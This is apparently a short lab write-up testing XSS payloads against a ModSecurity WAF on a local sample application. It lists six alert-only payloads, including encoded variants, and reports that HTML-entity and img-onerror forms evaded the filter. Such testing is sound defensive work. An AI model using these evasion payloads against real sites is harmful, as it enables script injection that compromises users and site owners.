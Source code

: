 # XSS Payload Evasion with WAF Character-based Filters

## Setup

- **Web Application**: Sample application hosted locally with basic input fields vulnerable to XSS.
- **WAF**: ModSecurity with OWASP Core Rule Set (CRS).
- **Filters**: Enabled character-based filtering for common XSS patterns (e.g., `<script>`, `alert`, `onerror`).

## Payloads Tested

1. **Basic Payload**:
   - `<script>alert("XSS")</script>`
   - **Result**: Blocked by WAF.

2. **URL Encoded Payload**:
   - `%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E`
   - **Result**: Blocked by WAF.

3. **Hexadecimal Encoding**:
   - `%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%58%53%53%22%29%3c%2f%73%63%72%69%70%74%3e`
   - **Result**: Blocked by WAF.

4. **UTF-16 Encoding**:
   - `%u003c%u0073%u0063%u0072%u0069%u0070%u0074%u003e%u0061%u006c%u0065%u0072%u0074%u0028%u0022%u0058%u0053%u0053%u0022%u0029%u003c%u002f%u0073%u0063%u0072%u0069%u0070%u0074%u003e`
   - **Result**: Blocked by WAF.

5. **HTML Entities**:
   - `&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#88;&#83;&#83;&#34;&#41;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;`
   - **Result**: Evaded WAF.

6. **Alternative Syntax**:
   - `<img src=x onerror=alert("XSS")>`
   - **Result**: Evaded WAF.

## Conclusion

The payloads using HTML entities and alternative syntax successfully evaded the character-based filters of the WAF. This highlights the limitations of simple character-based filtering and underscores the need for more robust XSS protection mechanisms.

